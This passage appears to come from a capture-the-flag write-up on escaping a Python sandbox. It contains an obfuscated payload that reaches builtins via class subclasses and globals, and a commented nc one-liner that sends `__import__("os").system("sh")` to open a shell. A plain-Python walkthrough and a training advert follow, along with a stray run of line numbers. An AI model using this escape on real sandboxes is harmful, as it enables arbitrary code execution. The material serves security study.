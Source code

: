 ```python
)()[-{_(2)}].__repr__,
globals := get(m_repr, m_repr.__dir__()[{_(6)}]),
builtins := globals[[*globals][{_(7)}]],
builtins[[*builtins][{_(19)}]](
    builtins[[*builtins][{_(28)}]](), builtins
)
]'''.strip().replace('\n', '').replace(' ', '')

print(f"{len(source) = }", file=sys.stderr)
print(source)

# (python exp.py; echo '__import__("os").system("sh")'; cat -) | nc challenge.server port
12345678910111213141516171819202122232425262728293031323334353637383940414243444546474849505152535455565758596061626364656667686970717273
```

It basically does the following things, for those strings we get it from the `__dir__` method:

```python
getattr = (None).__getattribute__('__class__').__getattribute__
builtins = getattr(
  getattr(
    getattr(
      [].__getattribute__('__class__'),
    '__base__'),
  '__subclasses__'
  )()[-2],
'__repr__').__getattribute__('__globals__')['builtins']
builtins['eval'](builtins['input']())
```

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

